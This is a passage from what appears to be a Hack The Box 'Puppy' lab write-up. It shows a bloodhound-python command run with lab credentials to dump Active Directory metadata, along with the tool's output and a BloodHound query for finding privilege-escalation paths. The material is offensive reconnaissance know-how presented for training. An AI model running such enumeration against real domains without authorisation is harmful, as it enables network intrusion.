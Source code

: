   <img src="/img/redteam/htb/puppy/ldap-domain-users.png" alt="LDAP Dump Table" style="width: 100%; max-width: 100%; border: 1px solid #444; border-radius: 4px;" />
</div>

### 🧾 BloodHound ACL Analysis

<p class="indent-paragraph">
After mapping out the domain users and their respective groups, the next logical step was to understand the relationships between them. BloodHound is a powerful tool for visualizing Active Directory trust paths and permission structures — and we didn’t want to miss any low-hanging escalation routes. Using the same credentials, we launched<code>bloodhound-python</code> to dump the AD metadata.
</p>


```
~$ bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -dc dc.puppy.htb -d PUPPY.HTB -c All -ns <IP>

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 28S
```

<p class="indent-paragraph">
To gain visibility into how our current user fits into the Active Directory environment, we leveraged<code>BloodHound</code> with the previously dumped data. After importing all JSON files, we ran a simple query to map direct relationships:<code>MATCH (n)-[r]->(m) RETURN n, r, m</code><span class="codefix">.</span> This allowed us to graph the domain layout. From there, we right-clicked the<code>levi.james@PUPPY.HTB</code> node and selected <em>Shortest Paths to Here</em>, revealing a cleaner, contextual view of privileges, group memberships, and potential lateral opportunities.
</p>
